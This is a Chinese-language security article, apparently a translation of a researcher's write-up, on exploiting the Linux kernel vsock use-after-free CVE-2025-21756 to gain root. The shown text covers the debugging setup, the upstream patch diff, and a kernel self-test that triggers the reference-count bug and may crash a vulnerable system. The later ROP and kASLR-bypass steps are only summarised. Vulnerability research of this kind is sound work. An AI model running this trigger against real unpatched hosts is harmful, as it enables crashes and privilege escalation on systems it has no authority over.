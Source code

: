 #  Linux内核漏洞利用CVE-2025-21756：Vsock 攻击   
 Ots安全   2025-05-24 08:50  
  
w  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
> 文章讲的是Linux内核的一个漏洞，CVE-2025-21756，名字还挺酷，叫“Attack of the Vsock”。这个漏洞其实是个Use-After-Free问题，存在于vsock子系统里，主要是因为引用计数处理得不好，导致攻击者能直接提权到root，拿到系统控制权。作者在文章里详细讲了咋利用这个漏洞，包括怎么绕过AppArmor和kASLR，还用ROP链搞定了代码执行，最后在Linux 6.6.75上拿到了root shell。说实话，这种漏洞挺让人头疼的，Linux内核安全一直是个老大难问题，类似的UAF漏洞之前也见过不少。这篇文章写得挺实在的，感兴趣的朋友可以看看  
  
  
一开始只是随意浏览KernelCTF提交的内容，但很快就演变成长达数周的深入研究，研究一个看似简单的补丁 - 以及我第一次从 Linux 内核漏洞中获得 root shell！  
  
在浏览公开的提交电子表格时，我看到了一个有趣的条目：exp237。这个漏洞补丁看起来非常简单，我惊讶于一位研究人员竟然能够利用它进行权限提升。于是，我开始了一段可能会降低我的GPA，甚至偶尔让我怀疑自己是否理智的旅程：我的第一个Linux内核漏洞利用！  
  
设置环境  
  
在开始深入开发漏洞利用程序之前，我们需要搭建一个良好的 Linux 内核调试环境。我决定使用QEMU，并结合midas 的精彩文章和 bata 的gdb 内核扩展脚本。我选择从 Linux 内核 6.6.75 开始，因为它与其他研究人员正在利用的版本接近。实际上，我在 WSL 中完成了整个项目，这样我就可以在学校的 Windows 电脑上编写漏洞利用程序了！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadaUxE9eycrpH9MyyWrS4apryIicPsT9Pwaib8r1ACIRu4iaqe8BFzpLSeBolbOVnrImGy2Njg8M7FibA/640?wx_fmt=png&from=appmsg "")  
  
补丁分析  
  
从下面的补丁中可以看出，修复仅涉及几行代码。从代码和说明来看，传输重新分配可以触发vsock_remove_sock，从而调用 ，vsock_remove_bound从而错误地减少 vsock 对象上的引用计数器（如果套接字一开始就未绑定）。  
  
当内核中某个对象的引用计数器达到零时，该对象将被释放到其各自的内存管理器。理想情况下，在释放 vsock 对象后，我们将能够触发某种释放后使用 (UAF) 漏洞，以获得更好的原始权限并提升权限。  
  
```
--- a/net/vmw_vsock/af_vsock.c+++ b/net/vmw_vsock/af_vsock.c@@ -337,7 +337,10 @@ EXPORT_SYMBOL_GPL(vsock_find_connected_socket); void vsock_remove_sock(struct vsock_sock *vsk) {- vsock_remove_bound(vsk);+ /* Transport reassignment must not remove the binding. */+ if (sock_flag(sk_vsock(vsk), SOCK_DEAD))+ vsock_remove_bound(vsk);+   vsock_remove_connected(vsk); } EXPORT_SYMBOL_GPL(vsock_remove_sock);@@ -821,12 +824,13 @@ static void __vsock_release(struct sock *sk, int level)    */   lock_sock_nested(sk, level);+ sock_orphan(sk);+   if (vsk->transport)     vsk->transport->release(vsk);   elseif (sock_type_connectible(sk->sk_type))     vsock_remove_sock(vsk);- sock_orphan(sk);   sk->sk_shutdown = SHUTDOWN_MASK;   skb_queue_purge(&sk->sk_receive_queue);
```  
  
  
除了这个补丁之外，维护人员还为该漏洞添加了一个测试用例，这对于启动漏洞利用非常有用。  
  
```
#define MAX_PORT_RETRIES 24 /* net/vmw_vsock/af_vsock.c */#define VMADDR_CID_NONEXISTING 42/* Test attempts to trigger a transport release for an unbound socket. This can * lead to a reference count mishandling. */staticvoidtest_seqpacket_transport_uaf_client(const struct test_opts *opts){int sockets[MAX_PORT_RETRIES];structsockaddr_vmaddr;int s, i, alen;  s = vsock_bind(VMADDR_CID_LOCAL, VMADDR_PORT_ANY, SOCK_SEQPACKET);  alen = sizeof(addr);if (getsockname(s, (struct sockaddr *)&addr, &alen)) {    perror("getsockname");    exit(EXIT_FAILURE);  }for (i = 0; i < MAX_PORT_RETRIES; ++i)    sockets[i] = vsock_bind(VMADDR_CID_ANY, ++addr.svm_port,          SOCK_SEQPACKET);  close(s);  s = socket(AF_VSOCK, SOCK_SEQPACKET, 0);if (s < 0) {    perror("socket");    exit(EXIT_FAILURE);  }if (!connect(s, (struct sockaddr *)&addr, alen)) {    fprintf(stderr, "Unexpected connect() #1 success\n");    exit(EXIT_FAILURE);  }/* connect() #1 failed: transport set, sk in unbound list. */  addr.svm_cid = VMADDR_CID_NONEXISTING;if (!connect(s, (struct sockaddr *)&addr, alen)) {    fprintf(stderr, "Unexpected connect() #2 success\n");    exit(EXIT_FAILURE);  }/* connect() #2 failed: transport unset, sk ref dropped? */  addr.svm_cid = VMADDR_CID_LOCAL;  addr.svm_port = VMADDR_PORT_ANY;/* Vulnerable system may crash now. */  bind(s, (struct sockaddr *)&addr, alen);  close(s);while (i--)    close(sockets[i]);  control_writeln("DONE");}
```  
  